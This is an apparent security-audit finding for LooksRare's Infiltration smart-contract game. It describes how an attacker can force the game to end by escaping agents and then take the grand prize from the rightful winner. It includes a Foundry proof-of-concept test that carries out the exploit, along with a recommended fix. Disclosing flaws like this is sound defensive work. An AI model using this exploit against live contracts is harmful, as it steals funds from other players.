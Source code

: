 Shaggy Emerald Dalmatian

high

# Attacker can steal reward of actual winner by force ending the game
## Summary

A malicious user can force win the game by escaping all but one wounded agent, and steal the grand price.

## Vulnerability Detail

Currently following scenario is possible: 
There is an attacker owning some lower index agents and some higher index agents.
There is a normal user owing one agent with an index between the attackers agents.
If one of the attackers agents with an lower index gets wounded, he can escape all other agents and will instantly win the game,
even if the other User has still one active agent.

This is possible because because the winner is determined by the agent index, 
and escaping all agents at once wont kill the wounded agent because the game instantly ends.

Following check inside startNewRound prevents killing of wounded agents by starting a new round:

```solidity
uint256 activeAgents = gameInfo.activeAgents;
        if (activeAgents == 1) {
            revert GameOver();
        }
```

Following check inside of claimPrize pays price to first ID agent:

```solidity
uint256 agentId = agents[1].agentId;
_assertAgentOwnership(agentId);
```

See following POC:

## POC

Put this into Infiltration.mint.t.sol and run `forge test --match-test forceWin -vvv`

```solidity
function test_forceWin() public {
        address attacker = address(1337);

        //prefund attacker and user1
        vm.deal(user1, PRICE * MAX_MINT_PER_ADDRESS);
        vm.deal(attacker, PRICE * MAX_MINT_PER_ADDRESS);

        // MINT some agents
        vm.warp(_mintStart());
        // attacker wants to make sure he owns a bunch of agents with low IDs!!
        vm.prank(attacker);
        infiltration.mint{value: PRICE * 30}({quantity: 30});
        // For simplicity we mint only 1 agent to user 1 here, but it could be more, they could get wounded, etc.
        vm.prank(user1);
        infiltration.mint{value: PRICE *1}({quantity: 1});
        //Attacker also wants a bunch of agents with the highest IDs, as they are getting swapped with the killed agents (move forward)
        vm.prank(attacker);
        infiltration.mint{value: PRICE * 30}({quantity: 30});
    
        vm.warp(_mintEnd());

        //start the game
        vm.prank(owner);
        infiltration.startGame();

        vm.prank(VRF_COORDINATOR);
        uint256[] memory randomWords = new uint256[](1);
        randomWords[0] = 69_420;
        VRFConsumerBaseV2(address(infiltration)).rawFulfillRandomWords(_computeVrfRequestId(1), randomWords);
        // Now we are in round 2 we do have 1 wounded agent (but we can imagine any of our agent got wounded, doesn´t really matter)
        
        // we know with our HARDCODED RANDOMNESS THAT AGENT 3 gets wounded!!

        // Whenever we get in a situation, that we own all active agents, but 1 and our agent has a lower index we can instant win the game!!
        // This is done by escaping all agents, at once, except the lowest index
        uint256[] memory escapeIds = new uint256[](59);
        escapeIds[0] = 1;
        escapeIds[1] = 2;
        uint256 i = 4; //Scipping our wounded AGENT 3
        for(; i < 31;) {
            escapeIds[i-2] = i;
            unchecked {++i;}
        }
        //skipping 31 as this owned by user1
        unchecked {++i;}
        for(; i < 62;) {
            escapeIds[i-3] = i;
            unchecked {++i;}
        }
        vm.prank(attacker);
        infiltration.escape(escapeIds);

        (uint16 activeAgents, uint16 woundedAgents, , uint16 deadAgents, , , , , , , ) = infiltration.gameInfo();
        console.log("Active", activeAgents);
        assertEq(activeAgents, 1);
        // This will end the game instantly.
        //owner should not be able to start new round
        vm.roll(block.number + BLOCKS_PER_ROUND);
        vm.prank(owner);
        vm.expectRevert();
        infiltration.startNewRound();

        //Okay so the game is over, makes sense!
        // Now user1 has the only active AGENT, so he should claim the grand prize!
        // BUT user1 cannot
        vm.expectRevert(IInfiltration.NotAgentOwner.selector);
        vm.prank(user1);
        infiltration.claimGrandPrize();

        //instead the attacker can:
        vm.prank(attacker);
        infiltration.claimGrandPrize();
        
```

## Impact

Attacker can steal the grand price of the actual winner by force ending the game trough escapes.

This also introduces problems if there are other players with wounded agents but lower < 50 TokenID, they can claim prices 
for wounded agents, which will break parts of the game logic.

## Code Snippet

https://github.com/sherlock-audit/2023-10-looksrare/blob/main/contracts-infiltration/contracts/Infiltration.sol#L589-L592

https://github.com/sherlock-audit/2023-10-looksrare/blob/main/contracts-infiltration/contracts/Infiltration.sol#L656-L672
## Tool used

Manual Review

## Recommendation

Start a new Round before the real end of game to clear all wounded agents and reorder IDs.
